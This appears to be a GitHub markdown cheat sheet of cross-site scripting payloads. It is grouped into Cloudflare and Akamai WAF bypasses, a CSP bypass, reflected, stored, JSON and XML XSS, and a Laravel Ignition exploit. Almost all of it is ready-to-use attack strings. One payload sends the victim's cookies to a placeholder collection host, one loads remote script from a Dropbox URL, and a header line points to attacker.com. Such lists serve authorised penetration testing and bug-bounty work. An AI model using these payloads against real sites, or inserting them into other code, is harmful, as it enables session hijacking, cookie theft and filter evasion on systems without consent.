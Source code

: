 # Custom XSS Payloads
```javascript
<img src=123><img src=123><a href="javascript:alert(document.domain)">xss</a><svg></svg><img src=1>
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e
<script /***/>/***/confirm(document.cookie,document.domain)/***/</script /***/
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(document.domain,document.cookie)&NewLine;>X</a>
<iframe onload="javascript:prompt(document.domain)" id="hello" role"world">Hello google
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
returnuri=%09Jav%09ascript:alert(document.domain)
var onskeywords = 'hello';onload=prompt(0);
"hello" onmouseover=prompt(0) world=""
test"t"\t/t%3Ct%3Et
"â™ˆ<<sVg/onloadâ™ˆ=/svg/onload=svg/onmouseOver=confirm'1'><!--â™ˆ//="
/><svg src=x onload=confirm(document.domain);>
<script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
<svg/onload=alert(document.domain)>")
<<!<script>iframe src=javajavascriptscript:alert(document.domain)>
"><svg onload=alert`XSS`>
foo style=animation-name:gl-spinner-rotate onanimationend=alert(1)  -- apply this in profile name section
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
<a"/aonclick=(confirm)()>click
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
'-(a=alert,b="_Yooo!_",[b].find(a))-'
%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
<sCRipT>alert(1)</sCRiPt>
<script>%0aalert(1)</script>
<scr<script>ipt<alert(1);</scr<script>ipt>
<input onfocus="alert('xss');" autofocus>
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
<svg•onload=alert(1)>
<script>alert?.(document?.domain)</script>
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
<x/onpointerRawupdate=confirm%26Ipar;1)//x
<script src=//⑮.₨></script>
img{background-image:url('javascript:alert()')}
<svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
"><img class="emoji" alt="😯" src="x" /><svg
">'><details/open/ontoggle=confirm(1337)>
%<script>3cscript%<script>3ealert(1)%<script>3c/script%<script>3e
<input disabled=disabled onbeforecopy=alert(1) value=copyme>
</textarea><img src=x onerror=”var pop=’ALERT(document.cookie);’; eval(pop.toLowerCase());”
</script><script>alert('xElkomy')</script>
OnMoUsEoVeR=prompt(/hacked/)//
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
"mitsec<form/><!><details/open/ontoggle=alert(document.domain)>"@gmail.com
```
## XSS via Reflected Headers
```http
X-Original-URL: https://attacker.com/
X-Original-URL: test//test\
X-Original-URL: https:\\samcurry.net/please//work
True-Client-IP: <h1>XSS</h1></center><script>alert(document.domain)</script>
```
## XSS payload with Alert Obfuscation, for bypass RegEx filters
```js
<img src="X" onerror=top[8680439..toString(30)](1337)>
```

## Logical assignment operators in JavaScript
```js
window&&=(window&&=opener||=alert)?.(1??0,)
```
## Which results alert(1)
```js
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```
## RXSS
```js
%22%3Cimg%2F**%2Fsrc%3D%22x%22%2F**%2Fonx%3D%22%22%2F**%2Fonerror%3D%22alert%60xss%60%22%3Ef9y60 --encoded
"<img/**/src="x"/**/onx=""/**/onerror="alert`xss`">f9y60 --decoded
OnMoUsEoVeR=prompt(/hacked/)//
```

## Clourflare XSS bypass
```js
<a"/onclick=(confirm)()>Click Here!
%2sscript%2ualert()%2s/script%2u
<svg onload=alert%26%230000000040"1")
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## When you find input field which allows " (quotes), try this payload:
```js
"autofocus onfocus=alert(1)//
```
-> Doesn't work

**Try this**
```js
"type%3d"text"autofocus%20onfocus%3d"alert(1)"
```
-> Works

## Akami WAF XSS Bypass
```js
xhzeem*/eval?.(value+/()/.source)//"><input value=confirm autofocus onfocus='/*"
```
![img](https://pbs.twimg.com/media/EyDDoO7WYAEJMr6?format=jpg&name=small)

Limited case Akamai WAF bypass
```js
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>
```
Works in cases where double quotes are escaped 

`<xhzeem/x=\" ....>`

can also work with single quotes (change it in the payload)
![img](https://pbs.twimg.com/media/Ex-cjUQXIAIRw-y?format=jpg&name=small)

## Stored XSS
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## XSS via xml
```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>
```

## XSS in Json
```text
["');alert('XSS');//"]@xyz.xxx
```

## CSP Bypass
```js
<Button href="javascript://%0aalert(document.domain)">XSS</Button>
javascript://%0dalert()
javascript:/**/%0aalert()
```

## Bypass XSS WAF, Filters and Akamai src,svg,autofocus,iframe,img,<>
```js
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```

## Reflected XSS
```js
url=%26%2302java%26%23115cript:alert(document.domain)
```
## Laravel Ignition Reflected Cross-Site Scripting
```js
host+/_ignition/scripts/--%3E%3Csvg%20onload=alert('XSS')%3E
```
![img](https://pbs.twimg.com/media/F-pD1E9bYAAo8IB?format=jpg&name=small)
